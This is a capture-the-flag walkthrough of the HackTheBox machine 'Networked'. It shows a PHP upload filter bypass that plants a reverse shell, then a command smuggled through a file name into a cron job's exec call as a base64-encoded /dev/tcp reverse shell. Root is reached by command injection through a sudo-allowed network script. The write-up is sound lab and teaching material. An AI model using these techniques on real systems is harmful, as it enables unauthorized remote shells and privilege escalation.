



# Networked - Easy

Target IP: **10.129.63.26**

## User Flag

Initial scan: ```sudo nmap --open 10.129.63.26 -vvv```

Output shows standard port 22 for ssh and 80 for http.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-13 13:03 EDT
Initiating Ping Scan at 13:03
Scanning 10.129.63.26 [4 ports]
Completed Ping Scan at 13:03, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:03
Completed Parallel DNS resolution of 1 host. at 13:03, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 13:03
Scanning 10.129.63.26 [1000 ports]
Discovered open port 22/tcp on 10.129.63.26
Discovered open port 80/tcp on 10.129.63.26
Completed SYN Stealth Scan at 13:03, 5.05s elapsed (1000 total ports)
Nmap scan report for 10.129.63.26
Host is up, received echo-reply ttl 63 (0.0074s latency).
Scanned at 2026-09-13 13:03:38 EDT for 5s
Not shown: 987 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.19 seconds
           Raw packets sent: 1992 (87.624KB) | Rcvd: 19 (1.296KB)
```

Connect and service scan: ```sudo nmap -sC -sV 10.129.63.26 -v```

Output shows a website being hosted on Apache 2.4.6 on port 80, and port 443 is closed.

```
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
```

Let's navigate to the website.

The website only shows us text, potentially for a new application that is being built.


Looking at the page source of the website, there is a comment talking about an upload and gallery not yet linked. This leads me to believe that there might be some interesting directories we could enumerate for.


So, let's do just that: ```ffuf -w directory-list-2.3-medium.txt:FUZZ -u http://10.129.63.26/FUZZ -ic -t 10```

We get a hit on two directories, ```/uploads``` and ```/backup```.

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.63.26/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 229, Words: 33, Lines: 9, Duration: 10ms]
uploads                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 7ms]
backup                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 10ms]
                        [Status: 200, Size: 229, Words: 33, Lines: 9, Duration: 8ms]
:: Progress: [220547/220547] :: Job [1/1] :: 1470 req/sec :: Duration: [0:02:47] :: Errors: 0 ::
```

Let's navigate to each.

The ```/uploads``` directory seems to be blank, with nothing in the page source either.


The ```/backup``` directory is interesting. It has directory listing enabled, and there is a file named ```backup.tar``` that we can download onto our attack box.


Let's save the ```.tar``` file onto our attack box and unzip it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ tar -xvf backup.tar
index.php
lib.php
photos.php
upload.php
```

We get four ```.php``` files, which seem to be a part of the source code of the planned website.

Let's check out each.

```index.php``` is just the page source code of the original website.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ cat index.php 
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

```lib.php``` seems to be defining functions for filtering and validation on uploaded files.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ cat lib.php
<?php

function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}


?>
```

```upload.php``` seems to be the source code of the planned ```/uploads``` directory, and it uses the functions defined in ```lib.php``` to perform validation on uploaded files.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ cat upload.php 
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

```photos.php```seems to be the source code for the "gallery" that was mentioned on the home page, where the uploaded images are displayed.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ cat photos.php 
<html>
<head>
<style type="text/css">
.tg  {border-collapse:collapse;border-spacing:0;margin:0px auto;}
.tg td{font-family:Arial, sans-serif;font-size:14px;padding:10px 5px;border-style:solid;border-width:1px;overflow:hidden;word-break:normal;border-color:black;}
.tg th{font-family:Arial, sans-serif;font-size:14px;font-weight:normal;padding:10px 5px;border-style:solid;border-width:1px;overflow:hidden;word-break:normal;border-color:black;}
.tg .tg-0lax{text-align:left;vertical-align:top}
@media screen and (max-width: 767px) {.tg {width: auto !important;}.tg col {width: auto !important;}.tg-wrap {overflow-x: auto;-webkit-overflow-scrolling: touch;margin: auto 0px;}}</style>
</head>
<body>
Welcome to our awesome gallery!</br>
See recent uploaded pictures from our community, and feel free to rate or comment</br>
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$ignored = array('.', '..', 'index.html');
$files = array();

$i = 1;
echo '<div class="tg-wrap"><table class="tg">'."\n";

foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;
  $files[$file] = filemtime($path. '/' . $file);
}
arsort($files);
$files = array_keys($files);

foreach ($files as $key => $value) {
  $exploded  = explode('.',$value);
  $prefix = str_replace('_','.',$exploded[0]);
  $check = check_ip($prefix,$value);
  if (!($check[0])) {
    continue;
  }
  // for HTB, to avoid too many spoilers
  if ((strpos($exploded[0], '10_10_') === 0) && (!($prefix === $_SERVER["REMOTE_ADDR"])) ) {
    continue;
  }
  if ($i == 1) {
    echo "<tr>\n";
  }

echo '<td class="tg-0lax">';
echo "uploaded by $check[1]<br>";
echo "";
echo "</td>\n";


  if ($i == 4) {
    echo "</tr>\n";
    $i = 1;
  } else {
    $i++;
  }
}
if ($i < 4 && $i > 1) {
    echo "</tr>\n";
}
?>
</table></div>
</body>
</html>
```

I'm guessing that ```/upload.php``` is where we will be uploading our files.

There it is.



We need to bypass all the filtering that is happening to upload reverse shell code, then figure out the naming mechanism to navigate to the file to get access.

A prerequisite to that is to take a close look at the source code, particularly ```upload.php``` and ```lib.php``` to understand the filtering that is happening.

After taking a deep look into the source code, the validation measures in place seems to be a MIME type checking by analyzing magic bytes, and making sure that the file extension ends in ```.jpg```, ```.png```, ```.gif```, and ```.jpg``` to ensure the uploaded file is an image.

To bypass this, we need to insert magic bytes for an image file type, then make sure our file name ends with the image extensions but adding ```.php``` beforehand. The filtering mechanism doesn't seem to have additional checks on ```.php``` file extensions. We can make our file extension something like ```.php.jpg``` to have the server still execute our code.

For the naming convention, it seems to take our remote IP address, replace the ```.``` in the IP with ```_```, then append the file extension to it. So since our attack box IP is ```10.10.15.194```, our uploaded file will be located at ```http://10.129.63.26/uploads/10_10_15_194.php.jpg```.

I first uploaded a valid image file, just to see if my guess on the naming mechanism was correct.



Navigating to the file name, it confirms my guess. The image itself is not appearing because I cut the majority of the image content in Burp to get through the file size checking, but the file exists on the server.


Finally, let's send our reverse shell code.

Successfully uploaded!



Let's now open up a netcat listener and navigate to the file, hoping the php code gets executed and we get a connection back.

There it is.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.63.26 35186
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 20:54:10 up  1:54,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
sh-4.2$ 
```

We don't have permissions to read the user flag, but we do find two interesting files in the ```guly``` user's home directory: ```crontab.guly``` and ```check_attack.php```

Looking at ```crontab.guly```, we can see that ```check_attack.php``` is ran every three minutes.

```
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```

```check_attack.php``` checks the IP address that uploaded files to the server, but that is irrelevant.

This line in the script is interesting: ```exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");```. The ```$path``` variable is set at the top, but ```$value``` is set by the script scanning files in the uploads directory without any validation. We could inject a fake file with the file name being a command, having the cron job execute the command for us. We could get a reverse shell connection as the ```guly``` user. However, since file names cannot contain the ```/``` character, we should base64 encode our payload.

```
sh-4.2$ echo -n 'sh -i >& /dev/tcp/10.10.15.194/4445 0>&1' | base64 -w0      
echo -n 'sh -i >& /dev/tcp/10.10.15.194/4445 0>&1' | base64 -w0
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTk0LzQ0NDUgMD4mMQ==sh-4.2$
```

Let's see if our payload works. We take the base64 encoded string, decode it, then pipe it through bash to run it.

```
sh-4.2$ echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTk0LzQ0NDUgMD4mMQ== | base64 -d | sh
```

We do get a shell back, confirming that our payload works.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.129.63.26 43954
sh: no job control in this shell
sh-4.2$ 
```

Let's put it all together. We make a dummy file containing the intended ```$value``` variable to store the file name, which is the command that we want to run. Then, we can wait for the cron job to run as ```guly``` and hopefully get a shell as the user.

```
sh-4.2$ touch '; echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTk0LzQ0NDUgMD4mMQ== | base64 -d | sh' 
<WkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTk0LzQ0NDUgMD4mMQ== | base64 -d | sh'       
sh-4.2$ ls -la
ls -la
total 36
drwxrwxrwx. 2 root   root   4096 Sep 13 21:29 .
drwxr-xr-x. 4 root   root   4096 Jul  9  2019 ..
-rw-r--r--  1 apache apache   19 Sep 13 20:50 10_10_15_194.jpg
-rw-r--r--  1 apache apache 3625 Sep 13 20:52 10_10_15_194.php.jpg
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_4.png
-rw-rw-rw-  1 apache apache    0 Sep 13 21:29 ; echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTk0LzQ0NDUgMD4mMQ== | base64 -d | sh
-r--r--r--. 1 root   root      2 Oct 30  2018 index.html
```

We got it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dmk8phjrwb]─[~]
└──╼ [★]$ nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.129.63.26 43958
sh: no job control in this shell
sh-4.2$ whoami
whoami
guly
```

We can proceed to get the user flag from here.

## Root Flag

It seems like we can run a script as root without a password.

```
sh-4.2$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Let's look at what this script does.

```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

This script seems to be reading user input from the terminal to write in variable names for the ```/etc/sysconfig/network-scripts/ifcfg-guly```, then running the ```/sbin/ifup``` binary.

Here is my attempt on running the script. I put ```/bin/bash``` for the name so that maybe the script can execute it, but it didn't work.

```
sh-4.2$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
/bin/bash
interface PROXY_METHOD:
a
interface BROWSER_ONLY:
a
interface BOOTPROTO:
a
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

However, the change was reflected on the file.

Playing around with the inputs, I noticed an interesting pattern.

```
sh-4.2$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
hi a
interface PROXY_METHOD:
lol hi
interface BROWSER_ONLY:
lmao lol
interface BOOTPROTO:
rofl lmao
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: a: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: hi: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: lol: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: lmao: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: a: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: hi: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: lol: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: lmao: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

It seems like for every input in a variable, the ```/sbin/ifup``` binary runs the string after a space as a command. If we put ```/bin/bash``` after a space, we might get ```root``` access.

Let's try it.

```
sh-4.2$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
hi /bin/bash
interface PROXY_METHOD:
hi
interface BROWSER_ONLY:
hi
interface BOOTPROTO:
hi
whoami
root
```

It worked. We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
